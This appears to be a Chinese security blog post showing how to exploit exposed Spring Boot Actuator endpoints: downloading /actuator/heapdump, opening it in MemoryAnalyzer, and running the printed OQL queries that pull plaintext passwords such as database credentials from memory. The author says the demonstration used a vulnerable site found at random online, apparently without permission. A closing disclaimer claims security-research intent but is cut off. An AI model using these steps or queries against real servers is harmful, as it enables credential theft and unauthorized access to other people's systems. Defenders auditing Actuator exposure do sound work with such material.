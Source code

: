 后缀:http://127.0.0.1:port/actuator/heapdumphttp://127.0.0.1:port/actuator/actuator/heapdump  
  
注:临时网络上随便搜索了一个存在的漏洞做测试演示:利用内存泄漏分析软件MemoryAnalyzer解析Heap Dump（堆转储文件）,获取隐藏的密码探测后缀名actuator/env 若网页存在,全局搜索password,发现如下图:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcoQWB3nfvqODNlNSYwajYSWfyffMSoNFK6OZ4dTodjcBP3q7ChRdV5M66VuawmpTsiazIicwKZKmAAw/640?wx_fmt=png&from=appmsg "")  
  
访问Actuator/heapdump 后缀发现可下载内存文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcoQWB3nfvqODNlNSYwajYSWDrQjnaZicibM6HPQu1ZQICjic5iczhbCVtZ71GcUxm56n4vauGFDRFStTA/640?wx_fmt=png&from=appmsg "")  
  
利用内存分析工具分析上述下载文件:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcoQWB3nfvqODNlNSYwajYSWDrQjnaZicibM6HPQu1ZQICjic5iczhbCVtZ71GcUxm56n4vauGFDRFStTA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcoQWB3nfvqODNlNSYwajYSWAicplgIicZY9Hf3spcRib3M0FxYDAhzvdQwHYLMKjicNia91HQkQTzAhaDA/640?wx_fmt=png&from=appmsg "")  
1.选择  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcoQWB3nfvqODNlNSYwajYSWicSwSZekBu6SQmBxZXiaoZ2dq0kZgltVUR4M6mEyQNI2jyVChh86WwEQ/640?wx_fmt=png&from=appmsg "")  
  
2.File->open Heap Dump -> 选择 All Files－＞然后选择hump文件->利用OQL查找  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcoQWB3nfvqODNlNSYwajYSW1aunxsOWLXGFk9bA9bN8dnOj5TzEK1TyTy7FtaHdoicy41OKVvFzPBQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcoQWB3nfvqODNlNSYwajYSWjvY8Fz0eV8DRwGqoVBYziblzo7b2dhSZKrW75t5511aa5r8m8BVGbJA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcoQWB3nfvqODNlNSYwajYSWS2vrlXC4GXgibEanetUsGWqdiakquFtyOHfjGAewLEKfrnpEvnltTWrA/640?wx_fmt=png&from=appmsg "")  
  
可利用以下可用的oql代码在堆信息中找到明文密码(代码啥意思自行百度吧,我也百度了好几个小时各种尝试实验才完全弄明白…)select * from java.util.Hashtable$Entry x WHERE (toString(x.key).contains("password"))  
  
select * from java.util.LinkedHashMap$Entry x WHERE (toString(x.key).contains("password"))/  
**hua  
**/select * from java.util.LinkedHashMap$Entry x WHERE (toString(x.key).contains("spring.datasource.password"))  
  
select * from java.util.HashMap$Node x WHERE (toString(x.key).contains("password"))  
  
可看到密码：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcoQWB3nfvqODNlNSYwajYSWKCic3h8YtlBES8JvcYCdRfUuEsoDlPNiaPkmxAvtVh3JOzJTfnZbaAibw/640?wx_fmt=png&from=appmsg "")  
#### 附带极简测试代码  
  
注：需要请自行根据原始代码就行优化，如：增加参数，遍历，日志，独立运行功能等  
  
申  
明  
：  
本  
公  
众  
号  
所  
分  
享  
内  
容  
仅  
用  
于  
网  
络  
安  
全  
技  
术  